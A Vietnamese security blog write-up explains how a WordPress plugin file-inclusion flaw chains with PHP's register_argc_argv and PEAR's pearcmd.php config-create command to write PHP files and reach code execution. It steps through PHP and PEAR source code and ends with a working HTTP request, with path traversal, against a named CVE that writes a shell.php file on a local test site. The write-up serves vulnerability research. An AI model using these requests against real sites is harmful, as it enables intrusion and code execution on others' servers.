



<!--more-->

Xin chào. Sau khi phân tích 10 CVE liên quan đến LFI trên các plugin WordPress, tôi nhận thấy một rào cản chung: nhiều vector khai thác bị giới hạn bởi yêu cầu **phải có hậu tố `.php`**. Điều này làm giảm đáng kể khả năng khai thác. Trong quá trình tìm hiểu, tôi tìm thấy bài viết [docker-php-include-getshell](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp). Bài đó mô tả cách **bypass ràng buộc `.php`** bằng cách lợi dụng file `pearcmd.php` vốn nằm trong bộ công cụ **PECL**/**PEAR** của PHP và có sẵn trong môi trường WordPress được triển khai trên Docker - một mẹo rất thực tế cho kịch bản không cho upload file.

## PEAR và PECL là gì?
- **PECL (PHP Extension Community Library)**: công cụ dòng lệnh để cài và quản lý extension PHP.  
- **PEAR (PHP Extension and Application Repository)**: thư viện nền tảng cho PECL.

Trước PHP `7.3`, PEAR/PECL thường được cài mặc định.  
Từ PHP `7.4` trở đi, cần biên dịch PHP với `--with-pear` để có chúng.

Tuy nhiên, trong các Docker image PHP chính thức, PEAR/PECL **vẫn thường được cài sẵn**, nằm ở `/usr/local/lib/php`:

```sh
root@e182501c47c4:/var/www/html# ls /usr/local/lib/php
Archive  Console  OS  PEAR  PEAR.php  Structures  System.php  XML  build  data  doc  extensions  pearcmd.php  peclcmd.php  test
```

## `pearcmd.php` và `register_argc_argv`
`pearcmd.php` là một script PHP thiết kế để chạy ở chế độ dòng lệnh, ví dụ:

```sh
php /usr/local/lib/php/pearcmd.php install somepackage
```

Nó xử lý các tham số từ `$argv` và `$argc`. Khi chạy như CLI thì dữ liệu này rõ ràng. Nếu file này được include trong bối cảnh web (do LFI), logic CLI của nó có thể bị lợi dụng.

Điểm then chốt là cấu hình `register_argc_argv`. Nếu `register_argc_argv = On`, PHP sẽ tạo:
- `$argc`
- `$argv`
- `$_SERVER['argv']`


Khi thiết lập WordPress trên Docker, `register_argc_argv` thường bật mặc định. Vấn đề đặt ra: khi PHP chạy dưới SAPI web (FPM/Apache) và không phải CLI, `$argv` lấy dữ liệu từ đâu?

## Analysis PHP Source Code
Trong PHP core có logic như sau:

```c
if (PG(register_argc_argv)) {
    if (SG(request_info).argc) {
        ...
    } else {
        php_build_argv(SG(request_info).query_string, &PG(http_globals)[TRACK_VARS_SERVER]);
    }
}
```

Nếu không có `argc` (không chạy CLI), PHP gọi `php_build_argv` với `SG(request_info).query_string` - tức **query string** của URL. Ví dụ:

```
http://example.com/index.php?a=b&c=d
```

→ `query_string = "a=b&c=d"`

PHP sẽ dùng query string này để tạo biến `argv`, do đó `$_SERVER['argv']` có thể bị ảnh hưởng bởi query string.

**Hậu quả**:

Khi `pearcmd.php` được include qua LFI trong môi trường web mà `$_SERVER['argv']` được sinh từ query string, attacker có thể điều khiển các tham số dòng lệnh mà `pearcmd.php` đọc được. Do đó, chức năng dòng lệnh của PEAR/PECL có thể bị lợi dụng qua web để thực hiện hành động không mong muốn.

## RFC3875 Explain

RFC3875 (CGI spec) định nghĩa một dạng **"indexed" HTTP query** - tức là chuỗi truy vấn không chứa dấu `=` chưa mã hóa và được gửi qua phương thức GET hoặc HEAD.

Khi gặp loại truy vấn này, server **nên** (`SHOULD`) coi phần query-string như một **search-string**, tách thành các **search-word** bằng dấu `+`:

```
search-string = search-word ( "+" search-word )
search-word = 1*schar
```

Sau khi tách, mỗi `search-word` sẽ được **URL-decode**, có thể mã hóa lại theo hệ thống, rồi **thêm vào danh sách đối số dòng lệnh (`argv`)** của chương trình CGI.

Nói ngắn gọn: nếu query-string không có dấu `=` và là yêu cầu GET hoặc HEAD, máy chủ có thể coi các phần ngăn cách bằng `+` như các tham số dòng lệnh và truyền vào `argv`.

**RFC3875** cho phép server biến một query-string "indexed" (GET/HEAD, không có ký tự `=` chưa mã hóa) thành danh sách từ, rồi đưa vào `argv`. Phần mô tả trong tiêu chuẩn như sau:

```
4.4. The Script Command Line

Some systems support a method for supplying an array of strings to
the CGI script. This is only used in the case of an 'indexed' HTTP
query, which is identified by a 'GET' or 'HEAD' request with a URI
query string that does not contain any unencoded "=" characters. For
such a request, the server SHOULD treat the query-string as a
search-string and parse it into words, using the rules

search-string = search-word ( "+" search-word )
search-word = 1*schar
schar = unreserved | escaped | xreserved
xreserved = ";" | "/" | "?" | ":" | "@" | "&" | "=" | "," |
"$"

After parsing, each search-word is URL-decoded, optionally encoded in
a system-defined manner and then added to the command line argument
list.
```

PHP từng có lỗ hổng liên quan ([CVE-2012-1823](https://nvd.nist.gov/vuln/detail/cve-2012-1823)). Hiện nay, PHP xử lý query-string rộng hơn RFC - ngay cả khi query-string có dấu `=`, nó vẫn có thể được đưa vào `$_SERVER['argv']`.


👉 Khi truyền query string theo dạng `?a+b+c+...`, PHP sẽ tách chuỗi tại các dấu `+` và tạo ra biến `$_SERVER['argv']` dưới dạng một mảng chứa các phần tử `['a', 'b', 'c', ...]`, đúng theo cơ chế được mô tả trong RFC3875.

## Testing PEAR in CLI
Trong bài viết của tác giả có đề cập đến payload liên quan đến `config-create`, được mô tả là dùng để tạo file cấu hình.


Khi tôi thử chạy lệnh trên CLI:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create
config-create: must have 2 parameters, root path and filename to save as
```

Khi không truyền đủ tham số, chương trình báo lỗi và yêu cầu hai tham số bắt buộc:

* `root path`: thư mục gốc mà PEAR dùng để cài đặt các package và tìm cấu hình.
* `filename`: đường dẫn tới file cấu hình sẽ được tạo ra.

Thử chạy với tham số đầy đủ:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create test_root_path test_filename.php
Root directory must be an absolute path beginning with "/", was: "test_root_path"
```

Ở đây PEAR yêu cầu `test_root_path` phải là đường dẫn tuyệt đối, tức là phải có dấu `/` ở đầu.

Khi chạy lại với đường dẫn hợp lệ:

```sh
root@e182501c47c4:/var/www/html# php /usr/local/lib/php/pearcmd.php config-create /test_root_path test_filename.php
```

Kết quả trả về:

```text {hl_lines=[9,10,11,12,13,14,16,17,19,28,29,30,43,45]}
Configuration (channel pear.php.net):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net
HTTP Proxy Server Address      http_proxy       <not set>
PEAR server [DEPRECATED]       master_server    <not set>
Default Channel Mirror         preferred_mirror <not set>
Remote Configuration File      remote_config    <not set>
PEAR executables directory     bin_dir          /test_root_path/pear
PEAR documentation directory   doc_dir          /test_root_path/pear/docs
PHP extension directory        ext_dir          /test_root_path/pear/ext
PEAR directory                 php_dir          /test_root_path/pear/php
PEAR Installer cache directory cache_dir        /test_root_path/pear/cache
PEAR configuration file        cfg_dir          /test_root_path/pear/cfg
directory
PEAR data directory            data_dir         /test_root_path/pear/data
PEAR Installer download        download_dir     /test_root_path/pear/download
directory
Systems manpage files          man_dir          /test_root_path/pear/man
directory
PEAR metadata directory        metadata_dir     <not set>
PHP CLI/CGI binary             php_bin          <not set>
php.ini location               php_ini          <not set>
--program-prefix passed to     php_prefix       <not set>
PHP's ./configure
--program-suffix passed to     php_suffix       <not set>
PHP's ./configure
PEAR Installer temp directory  temp_dir         /test_root_path/pear/temp
PEAR test directory            test_dir         /test_root_path/pear/tests
PEAR www files directory       www_dir          /test_root_path/pear/www
Cache TimeToLive               cache_ttl        <not set>
Preferred Package State        preferred_state  <not set>
Unix file mask                 umask            <not set>
Debug Log Level                verbose          <not set>
PEAR password (for             password         <not set>
maintainers)
Signature Handling Program     sig_bin          <not set>
Signature Key Directory        sig_keydir       <not set>
Signature Key Id               sig_keyid        <not set>
Package Signature Type         sig_type         <not set>
PEAR username (for             username         <not set>
maintainers)
User Configuration File        Filename         /var/www/html/test_filename.php
System Configuration File      Filename         #no#system#config#
Successfully created default configuration file "/var/www/html/test_filename.php"
```

Kết quả cho thấy các đường dẫn con cho từng loại dữ liệu được tự động sinh ra dưới `/test_root_path/pear`. Ở dòng cuối cùng:

```
Successfully created default configuration file "/var/www/html/test_filename.php"
```

File cấu hình được tạo trong thư mục hiện hành, không nằm trong `root_path`. Đây là hành vi mặc định của PEAR: `root_path` chỉ ảnh hưởng đến cấu trúc thư mục cài đặt, không quyết định vị trí lưu file cấu hình.

Khi truy cập file `"/var/www/html/test_filename.php"` trên trình duyệt:



File được tạo có chứa thông tin về `test_root_path`, được trình bày ở dạng `serialize`

Tuy nhiên, đó mới chỉ là quá trình thực thi trên CLI. Trong trường hợp khai thác qua web, cần phân tích mã nguồn để xem cách chương trình tiếp nhận và xử lý các tham số được truyền vào.

## `pearcmd` Code Analysis

Trước khi phân tích mã nguồn của `/usr/local/lib/php/pearcmd.php`, cần thiết lập môi trường debug để nắm rõ luồng thực thi - tham khảo: [https://w41bu1.github.io/2025-10-22-wordpress-local-and-debugging-docker/](https://w41bu1.github.io/2025-10-22-wordpress-local-and-debugging-docker/)

Sau đó hãy copy toàn bộ mã nguồn **php** từ container về máy thật, giữ nguyên cấu trúc thư mục, để khi debugger dừng tại `/usr/local/lib/php/pearcmd.php` bạn vẫn có thể mở và theo dõi file tương ứng với container:

```
sudo docker cp wordpress:/usr/local/lib/php/ /usr/local/lib/php/
```

```php {title="/usr/local/lib/php/pearcmd.php"}
require_once 'PEAR.php';
require_once 'PEAR/Frontend.php';
require_once 'PEAR/Config.php';
require_once 'PEAR/Command.php';
require_once 'Console/Getopt.php';

$all_commands = PEAR_Command::getCommands();
...
$argv = Console_Getopt::readPHPArgv();
...
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
array_shift($argv);
...
$command = (isset($options[1][0])) ? $options[1][0] : null;
...
if ($fetype == 'Gtk2') {
    ...
} else {
    do {
        ...
        $cmd = PEAR_Command::factory($command, $config);
        ...
        list($tmpopt, $params) = $tmp;
        ...
        $ok = $cmd->run($command, $opts, $params);
        if ($ok === false) {
            PEAR::raiseError("unknown command `$command'");
        }
        ...
    } while (false);
}
```

Đầu tiên, tất cả các command sẽ được load vào `$all_commands`

```php
$all_commands = PEAR_Command::getCommands();
```

```php {title="/usr/local/lib/php/PEAR/Command.php"}
public static function getCommands()
{
    if (empty($GLOBALS['_PEAR_Command_commandlist'])) {
        PEAR_Command::registerCommands();
    }
    return $GLOBALS['_PEAR_Command_commandlist'];
}
```

`getCommands()` gọi đến `registerCommands()` để đăng ký các command.


Sau đó `$argv` được khởi tạo

```php
$argv = Console_Getopt::readPHPArgv();
```

```php {title="php/Console/Getopt.php" hl_lines=[4,12]}
public static function readPHPArgv()
{
    global $argv;
    if (!is_array($argv)) {
        if (!@is_array($_SERVER['argv'])) {
            if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                $msg = "Could not read cmd args (register_argc_argv=Off?)";
                return PEAR::raiseError("Console_Getopt: " . $msg);
            }
            return $GLOBALS['HTTP_SERVER_VARS']['argv'];
        }
        return $_SERVER['argv'];
    }
    return $argv;
}
```

Nếu `$argv` không phải mảng (tức là không có dữ liệu hợp lệ), hàm sẽ cố gắng tìm giá trị tương đương ở `$_SERVER['argv']` và trả về, tức các `search-word` đường ta truyền trong URL. ví dụ:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php HTTP/1.1
```

Quan sát trong debugger:


Ngay sau đó `$argv` sẽ được loại bỏ phần tử thứ nhất rồi trở thành đối số của `Console_Getopt::getopt2()`, gía trị trả về gán cho `$options`

```php
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

Giá trị bây giờ là:


Biến `$command` được khởi tạo với giá trị `$options[1][0]` tức `config-create` trong trường hợp này.

```php
$command = (isset($options[1][0])) ? $options[1][0] : null;
```

Sau đó 1 `factory` được tạo và gán vào `$cmd`

```php
$cmd = PEAR_Command::factory($command, $config);
```

Khi hover vào `$cmd` ta thấy được các tham số yêu cầu của lệnh `config-create`


Và đặc biệt, ta thấy hàm thực thi cho `config-create` là `doConfigCreate`

```php {title="/usr/local/lib/php/PEAR/Command.php" hl_lines=[54]}
function doConfigCreate($command, $options, $params)
{
    if (count($params) != 2) {
        return PEAR::raiseError('config-create: must have 2 parameters, root path and ' .
            'filename to save as');
    }

    $root = $params[0];
    // Clean up the DIRECTORY_SEPARATOR mess
    $ds2 = DIRECTORY_SEPARATOR . DIRECTORY_SEPARATOR;
    $root = preg_replace(array('!\\\\+!', '!/+!', "!$ds2+!"),
                            array('/', '/', '/'),
                        $root);
    if ($root[0] != '/') {
        if (!isset($options['windows'])) {
            return PEAR::raiseError('Root directory must be an absolute path beginning ' .
                'with "/", was: "' . $root . '"');
        }

        if (!preg_match('/^[A-Za-z]:/', $root)) {
            return PEAR::raiseError('Root directory must be an absolute path beginning ' .
                'with "\\" or "C:\\", was: "' . $root . '"');
        }
    }

    $windows = isset($options['windows']);
    if ($windows) {
        $root = str_replace('/', '\\', $root);
    }

    if (!file_exists($params[1]) && !@touch($params[1])) {
        return PEAR::raiseError('Could not create "' . $params[1] . '"');
    }

    $params[1] = realpath($params[1]);
    $config = new PEAR_Config($params[1], '#no#system#config#', false, false);
    if ($root[strlen($root) - 1] == '/') {
        $root = substr($root, 0, strlen($root) - 1);
    }

    $config->noRegistry();
    $config->set('php_dir', $windows ? "$root\\pear\\php" : "$root/pear/php", 'user');
    $config->set('data_dir', $windows ? "$root\\pear\\data" : "$root/pear/data");
    $config->set('www_dir', $windows ? "$root\\pear\\www" : "$root/pear/www");
    $config->set('cfg_dir', $windows ? "$root\\pear\\cfg" : "$root/pear/cfg");
    $config->set('ext_dir', $windows ? "$root\\pear\\ext" : "$root/pear/ext");
    $config->set('doc_dir', $windows ? "$root\\pear\\docs" : "$root/pear/docs");
    $config->set('test_dir', $windows ? "$root\\pear\\tests" : "$root/pear/tests");
    $config->set('cache_dir', $windows ? "$root\\pear\\cache" : "$root/pear/cache");
    $config->set('download_dir', $windows ? "$root\\pear\\download" : "$root/pear/download");
    $config->set('temp_dir', $windows ? "$root\\pear\\temp" : "$root/pear/temp");
    $config->set('bin_dir', $windows ? "$root\\pear" : "$root/pear");
    $config->set('man_dir', $windows ? "$root\\pear\\man" : "$root/pear/man");
    $config->writeConfigFile();
    $this->_showConfig($config);
    $this->ui->outputData('Successfully created default configuration file "' . $params[1] . '"',
        $command);
}
```

Hàm bắt buộc phải nhận đúng 2 tham số: `root path` và `filename`. Nếu không, trả về lỗi.

```php
if (count($params) != 2) {
    return PEAR::raiseError('config-create: must have 2 parameters, root path and ' .
        'filename to save as');
}
$root = $params[0];
```

Nếu ký tự đầu tiên của root path không phải là `/`, hàm kiểm tra xem có bật tuỳ chọn windows không.

```php
if ($root[0] != '/') {
    if (!isset($options['windows'])) {
        return PEAR::raiseError('Root directory must be an absolute path beginning ' .
            'with "/", was: "' . $root . '"');
    }

    if (!preg_match('/^[A-Za-z]:/', $root)) {
        return PEAR::raiseError('Root directory must be an absolute path beginning ' .
            'with "\\" or "C:\\", was: "' . $root . '"');
    }
}
$windows = isset($options['windows']);
if ($windows) {
    $root = str_replace('/', '\\', $root);
}
```

* Nếu không phải `Windows` → bắt lỗi vì yêu cầu đường dẫn bắt đầu bằng `/`.
* Nếu là `Windows` → kiểm tra định dạng `C:` (thông qua regex) và chuyển dấu `/` thành `\` nếu cần.

Sau đó, thực hiện tạo và kiểm tra file cấu hình đầu ra

```php
if (!file_exists($params[1]) && !@touch($params[1])) {
    return PEAR::raiseError('Could not create "' . $params[1] . '"');
}
$params[1] = realpath($params[1]);
```

* Nếu file chưa tồn tại, cố gắng tạo bằng `touch`. Nếu không tạo được → lỗi.
* Dùng `realpath` để lấy đường dẫn tuyệt đối thật sự của file.

Tạo đối tượng cấu hình và chuẩn hoá $root

```php
$config = new PEAR_Config($params[1], '#no#system#config#', false, false);
if ($root[strlen($root) - 1] == '/') {
    $root = substr($root, 0, strlen($root) - 1);
}
$config->noRegistry();
```

Thiết lập các giá trị đường dẫn

```php
$config->set('php_dir', $windows ? "$root\\pear\\php" : "$root/pear/php", 'user');
$config->set('data_dir', $windows ? "$root\\pear\\data" : "$root/pear/data");
...
$config->set('man_dir', $windows ? "$root\\pear\\man" : "$root/pear/man");
```

Cuối cùng là ghi file cấu hình, hiển thị và thông báo thành công

```php {hl_lines=[1]}
$config->writeConfigFile();
$this->_showConfig($config);
$this->ui->outputData('Successfully created default configuration file "' . $params[1] . '"',
    $command);
```

`writeConfigFile()` là hàm chính dùng để ghi dữ liệu vào config file.

```php {title="/usr/local/lib/php/PEAR/Command/Config.php" hl_lines=[38,39,40,41]}
function writeConfigFile($file = null, $layer = 'user', $data = null)
{
    $this->_lazyChannelSetup($layer);
    if ($layer == 'both' || $layer == 'all') {
        foreach ($this->files as $type => $file) {
            $err = $this->writeConfigFile($file, $type, $data);
            if (PEAR::isError($err)) {
                return $err;
            }
        }
        return true;
    }

    if (empty($this->files[$layer])) {
        return $this->raiseError("unknown config file type `$layer'");
    }

    if ($file === null) {
        $file = $this->files[$layer];
    }

    $data = ($data === null) ? $this->configuration[$layer] : $data;
    $this->_encodeOutput($data);
    $opt = array('-p', dirname($file));
    if (!@System::mkDir($opt)) {
        return $this->raiseError("could not create directory: " . dirname($file));
    }

    if (file_exists($file) && is_file($file) && !is_writeable($file)) {
        return $this->raiseError("no write access to $file!");
    }

    $fp = @fopen($file, "w");
    if (!$fp) {
        return $this->raiseError("PEAR_Config::writeConfigFile fopen('$file','w') failed ($php_errormsg)");
    }

    $contents = "#PEAR_Config 0.9\n" . serialize($data);
    if (!@fwrite($fp, $contents)) {
        return $this->raiseError("PEAR_Config::writeConfigFile: fwrite failed ($php_errormsg)");
    }
    return true;
}
```

Đây là hàm quyết định việc ghi config file với `serialize($data)` để chuyển cấu hình thành chuỗi có thể lưu trữ.

Trở lại file `pearcmd.php`, các param được tạo và gán vào `$params`.

```php
list($tmpopt, $params) = $tmp;
```



Cuối cùng, `$cmd` được thực thi bằng `$cmd->run()`

```php
$ok = $cmd->run($command, $opts, $params);
```

## Flow
1. Gửi GET request:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php
```

2. Web `include` `/usr/local/lib/php/pearcmd.php`.

3. PHP (register_argc_argv=On) build `$_SERVER['argv']` từ query → `['action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&','config-create','/test_root_path','test_filename.php']`.

4. `Console_Getopt::readPHPArgv()` trả `$argv`; `Console_Getopt::getopt2()` parse ra `$command='config-create'` và `list($tmpopt, $params)` trả về `$params=['/test_root_path','test_filename.php']`.

5. `doConfigCreate()` chạy với `$params` do attacker kiểm soát → `touch()`/`realpath()` và `writeConfigFile()` tạo/ghi file.

> [!INFO]
> File cấu hình được tạo có chứa giá trị `root path`. Nếu giá trị này bị ghi dưới dạng một thẻ PHP hợp lệ (`<?php ... ?>`) và `file` có thể được truy cập bởi client, webserver sẽ xử lý nội dung PHP trong file đó và đoạn mã sẽ được thực thi dẫn tới **RCE**

## Exploit

Tận dụng [CVE-2025-48293](https://w41bu1.github.io/2025-10-13-cve-2025-48293/) đã phân tích để khai thác mở rộng bằng `pearcmd.php`

Gửi request chứa LFI payload trỏ đến `pearcmd.php`

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo();?>+/var/www/html/shell.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```

**Response trả về thành công**:



Truy cập `shell.php`

